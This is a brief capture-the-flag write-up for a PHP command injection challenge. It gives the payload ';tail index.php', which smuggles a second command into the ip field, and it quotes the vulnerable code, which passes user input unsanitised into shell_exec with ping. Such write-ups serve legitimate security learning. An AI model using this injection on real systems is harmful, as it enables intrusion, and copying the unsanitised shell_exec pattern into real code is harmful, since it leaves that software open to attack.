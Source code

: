 # PHP - Command Injection

### Prerequires:

- <a>Nothing</a>

-----------------

- Need anything just type `;tail index.php` and here is the flag:

```php
$flag = "XXXXXXXXXXXXXXXXX";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```
